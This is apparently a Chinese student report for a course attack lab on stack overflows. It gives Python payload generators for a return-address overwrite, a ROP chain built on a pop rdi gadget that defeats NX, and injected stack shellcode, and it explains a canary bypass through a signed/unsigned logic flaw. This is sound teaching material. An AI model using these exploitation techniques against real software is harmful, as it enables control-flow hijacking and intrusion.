

# 栈溢出攻击实验

## 题目解决思路
Problem1 中，先通过反汇编确定局部缓冲区到返回地址之间的固定偏移，在没有任何保护机制的前提下，直接用一段合适长度的 padding 覆盖到返回地址位置，再将返回地址改写为程序中已有、会输出 Yes!I like ICS! 的目标函数。Problem2 在此基础上引入了 NX 保护，栈不可执行，因此不能再往栈上塞自己的代码，而是通过构造 ROP 链：先利用 pop rdi; ret 这样的 gadget 设置好参数值，再跳转到目标函数 func2，成功输出指定字符串 Yes!I like ICS!，完成在 NX 环境下的控制流劫持。

Problem3 利用 memcpy 将 64 字节数据拷贝进仅有 32 字节的 buf，覆盖 saved rbp 和返回地址，把返回地址改成 jmp_xs，再在 buf 开头布置一小段 shellcode，在栈上执行这段机器指令，设置参数为 114 并调用 func1(0x72)，从而打印出幸运数字 “Your luck numbe is 114”。Problem4 中程序开启了栈 canary，用于检测并阻止栈溢出覆盖返回地址，但通过分析汇编逻辑，可以发现其在处理用户输入时使用了无符号比较，导致输入 -1 时会被当作一个很大的正数从而误入“成功”分支，调用通关函数并正常退出。

### Problem 1: 
- **分析**：problem1 程序存在典型的 栈缓冲区溢出漏洞。程序在读取用户输入文件内容时，未对输入长度进行有效检查，将输入数据直接拷贝到栈上的局部缓冲区中，从而导致当输入长度超过缓冲区大小时，后续的栈数据会被覆盖。

通过对 problem1 进行反汇编分析（objdump -d problem1），可以发现函数栈帧中局部缓冲区与返回地址之间的偏移是固定的。因此，攻击者可以构造特定长度的输入数据（payload），覆盖函数返回地址，使程序在函数返回时跳转到指定的目标函数。

进一步分析汇编代码可以发现，程序中已经存在一个函数，其功能是输出字符串：Yes!I like ICS!

因此，本题无需注入新的代码，只需通过 覆盖返回地址（ret2func） 的方式，将控制流劫持到该目标函数即可完成攻击。
- **解决方案**：payload 的整体结构如下：

[ padding ][ target function address ]


padding：用于填充栈缓冲区，覆盖从缓冲区起始位置到返回地址之前的所有内容

target function address：目标函数的地址，用于覆盖返回地址

在本实验环境中，通过分析确定：需要 16 字节 padding;目标函数地址为 0x401216;系统为 小端序（Little Endian），因此地址需按字节反序写入

使用 Python 生成二进制 payload 并写入文件 ans1.txt：

```python
padding = b"A" * 16

# func1 地址：0x401216（小端序）
target_addr = b"\x16\x12\x40\x00\x00\x00\x00\x00"

payload = padding + target_addr

with open("ans1.txt", "wb") as f:
    f.write(payload)

print("Payload written to ans1.txt")
```
该代码生成的 ans1.txt 文件即为程序运行时所需的输入文件。

- **结果**：

### Problem 2:
- **分析**：
漏洞位置：

程序 problem2 在 func 函数中存在栈溢出漏洞：
dest 地址为 rbp-0x8

拷贝长度为 0x38（56）字节

这会覆盖从 rbp-0x8 到 rbp+0x30 的内存区域

返回地址位于 rbp+0x8，距离 dest 的偏移为 16字节

攻击思路：

通过栈溢出覆盖返回地址

使用 ROP（Return-Oriented Programming）技术

跳转到 pop rdi gadget 设置参数

跳转到 func2 执行目标代码


- **解决方案**：
需要构造的 payload 结构：

16字节填充：覆盖 dest（局部变量）和 saved rbp

返回地址1：pop rdi; ret gadget 地址（0x4012c7）

参数值：0x3f8（十进制1016）

返回地址2：func2 函数地址（0x401216）

代码如下：
```python
#!/usr/bin/env python3
import struct

# 1. 填充 dest 和 saved rbp 的 16 字节
#    dest 在 rbp-0x8，拷贝56字节，前8字节填充dest，接着8字节覆盖保存的rbp
padding = b'A' * 16

# 2. ROP 链设置
pop_rdi = 0x4012c7    # pop rdi; ret 的地址（从反汇编看）
arg = 0x3f8           # 1016 的十六进制
func2_addr = 0x401216 # func2 函数的入口地址

# 3. 构造 payload
payload = padding
payload += struct.pack('<Q', pop_rdi)   # 小端序 64 位地址
payload += struct.pack('<Q', arg)       # pop rdi 时会弹出这个值到 rdi
payload += struct.pack('<Q', func2_addr) # 然后返回到 func2

# 4. 检查长度
print(f"Payload length: {len(payload)} bytes")
print(f"Maximum allowed by memcpy: 56 bytes")
if len(payload) > 56:
    print("ERROR: Payload too long!")
    exit(1)

# 5. 写入文件
with open("ans2.txt", "wb") as f:
    f.write(payload)

print("Payload written to ans2.txt")

# 6. 显示 payload 内容（可选）
print("\nPayload hex dump:")
for i in range(0, len(payload), 8):
    chunk = payload[i:i+8]
    hex_str = ' '.join(f'{b:02x}' for b in chunk)
    offset = i
    if offset == 0:
        print(f"Offset {offset:2d}: {hex_str}  # 前8字节填充 dest")
    elif offset == 8:
        print(f"Offset {offset:2d}: {hex_str}  # 覆盖 saved rbp")
    elif offset == 16:
        print(f"Offset {offset:2d}: {hex_str}  # 返回地址 -> pop rdi gadget (0x4012c7)")
    elif offset == 24:
        print(f"Offset {offset:2d}: {hex_str}  # 参数值 0x3f8")
    elif offset == 32:
        print(f"Offset {offset:2d}: {hex_str}  # 返回到 func2 (0x401216)")
```

- **结果**：

### Problem 3: 
- **分析**：main 从命令行读取一个文件名（例如 ans3.txt），用 fread 把文件内容读入栈上的一块缓冲区，然后把这块缓冲区的地址作为参数传给 func。也就是说，文件里的内容最终会被 func 当成一段字节数据来处理。

在 func 中，先在栈上开了 0x30 字节的空间，然后定义了一个局部缓冲区 buf，大小为 0x20（32 字节）。接着执行：用 memcpy 把 0x40从我们传入的字符串拷贝到 buf。由于拷贝长度（64）大于 buf 大小（32），后面的 32 字节就会覆盖掉栈上的 saved rbp 和返回地址，形成栈溢出漏洞。在调用 memcpy 之前，func 还把当前的 rsp 保存到了一个全局变量 saved_rsp 中。

此外，程序中还专门提供了一个辅助函数 jmp_xs：它会从全局变量 saved_rsp 中取出当时的栈指针，加上一个固定偏移，然后用 jmp 跳转到那块栈空间上执行。根据栈布局计算可知，这个跳转目标正好是 func 栈帧里 buf 的起始地址。

查看 func1 的反汇编可以看到，它把参数（int 类型）保存在栈上，然后与常数 0x72 比较：
如果参数等于 0x72（即十进制 114），就构造字符串 "Your luck numbe is 114" 并调用 puts 输出；否则输出错误提示。


- **解决方案**：根据以上分析，我构造的payload代码执行思路如下：

main 读取文件 ans3.txt，把内容传给 func；

func 调用 memcpy，把我们构造的 64 字节 payload 拷贝到栈上，覆盖了 buf、saved rbp 和返回地址；

func 执行 ret 时，不再回到 main，而是跳到我们写入的返回地址，也就是 jmp_xs；

jmp_xs 根据 saved_rsp 计算出 buf 的起始位置，并 jmp 到那里；

从 buf 开头开始执行我们布置好的那段小机器指令，设置参数为 114，并调用 func1(114)；

func1 比较参数等于 0x72，于是输出 "Your luck numbe is 114"，完成题目要求。

代码实现如下：

```python

shellcode = bytes([
    0xbf, 0x72, 0x00, 0x00, 0x00,        # mov    $0x72,%edi
    0x48, 0xc7, 0xc0, 0x16, 0x12, 0x40, 0x00,  # mov    $0x401216,%rax
    0xff, 0xd0,                          # call   *%rax
    0xc3                                 # ret
])

payload = b""


payload += shellcode


if len(payload) < 0x20:
    payload += b"\x90" * (0x20 - len(payload))


payload += b"B" * 8

jmp_xs = 0x401334
payload += jmp_xs.to_bytes(8, "little")

if len(payload) < 0x40:
    payload += b"C" * (0x40 - len(payload))

print("payload length:", len(payload))

with open("ans3.txt", "wb") as f:
    f.write(payload)

print("Payload written to ans3.txt")

```

- **结果**：


### Problem 4: 
- **分析**：Problem 4 中程序开启了 Stack Canary。
在函数执行时，程序会在栈中保存一个随机的 canary 值，并在函数返回前检查该值是否被修改。

如果在函数执行过程中发生栈溢出并破坏了栈结构，canary 的值就会发生变化，程序会立即调用 __stack_chk_fail 终止运行，从而防止攻击者通过覆盖返回地址劫持程序控制流。

- **解决方案**：problem4不需要写代码，通过分析汇编可以看出来程序在处理用户输入的整数时，使用了无符号比较，这会导致负数在无符号语义下被当作一个非常大的正整数处理，从而进入了本不应进入的“成功”分支。所以当输入-1时，-1在无符号比较中等价于一个很大的正数，成功满足程序的判断条件，程序调用成功函数并退出，即可完成。
- **结果**：
- 

## 思考与总结
整个实验一开始只是简单地算偏移、覆盖返回地址，把程序跳到现成的打印函数上；往后慢慢变成要考虑调用约定（参数在 rdi）、小端序、函数地址、gadget 位置，再到在 NX 环境下不能执行栈上代码、必须用 ROP 链“拼”出等价的调用效果，最后甚至要结合全局变量 saved_rsp 和特殊跳板函数 jmp_xs，在栈上布置一段精简的机器指令来间接调用 func1(0x72) 输出幸运数字 114。整个过程让我非常直观地体会到：只要能精确控制“栈长什么样”“ret 跳到哪”，不论是 ret2func、ROP 还是 shellcode，实际上玩的都是同一套控制流劫持思路，只是受限条件不同，手段也随之变化。

另一方面，Problem4 也提醒我：防护机制不是万能的。哪怕有 stack canary 这种专门用来防溢出的机制，只要程序在逻辑上用错了比较方式，攻击者就可以完全绕开栈溢出。这和前面几题通过覆盖返回地址的攻击方式完全不同，却同样能达到“通关效果”。通过这个lab，我对程序攻击有了更加深刻的认识，同时也更清楚地意识到：写程序时不仅要在实现层面注意边界检查、防止溢出，更要在设计和逻辑层面防止程序被攻击，确保安全。


## 参考资料

列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确。
[1]知乎.CSAPP | Lab3-Attack Lab 深入解析(2023.01.31)https://zhuanlan.zhihu.com/p/476396465
[2]Arthals' ink.更适合北大宝宝体质的 Attack Lab 踩坑记(2023.10.18)https://arthals.ink/blog/attack-lab
